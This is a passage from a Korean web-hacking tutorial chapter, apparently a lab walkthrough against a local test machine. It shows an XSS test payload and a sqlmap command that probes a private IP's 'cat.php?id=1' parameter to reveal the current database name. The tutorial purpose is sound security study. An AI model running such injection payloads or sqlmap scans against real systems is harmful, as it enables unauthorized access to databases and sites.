 
<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0086b3"></span><span style="color:#ff3399">&lt;</span>script<span style="color:#0086b3"></span><span style="color:#ff3399">&gt;</span>alert(<span style="color:#993333">'XSS'</span>)<span style="color:#0086b3"></span><span style="color:#ff3399">&lt;</span><span style="color:#0086b3"></span><span style="color:#ff3399">/</span>script<span style="color:#0086b3"></span><span style="color:#ff3399">&gt;</span></div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div><br>

-sql 인젝션 공격과 xss 공격이 가능한 것을 확인할 수 있습니다.<br>

<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%">sqlmap&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">-</span>u&nbsp;http:<span style="color:#0086b3"></span><span style="color:#ff3399">/</span><span style="color:#0086b3"></span><span style="color:#ff3399">/</span><span style="color:#308ce5">192.</span><span style="color:#308ce5">168.</span><span style="color:#308ce5">56.</span><span style="color:#308ce5">106</span><span style="color:#ff3399">/</span>cat.php?id<span style="color:#0086b3"></span><span style="color:#ff3399">=</span><span style="color:#308ce5">1</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">-</span><span style="color:#0086b3"></span><span style="color:#ff3399">-</span>current<span style="color:#0086b3"></span><span style="color:#ff3399">-</span>db</div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div><br>


<div align="center" >
<img src="/Art of Web Hacking/Chapter18/005.png" width="520" height="201"> <br>
</div>스샷. 5<br>
- 현재 DB의 이름을 알아내고,<br>
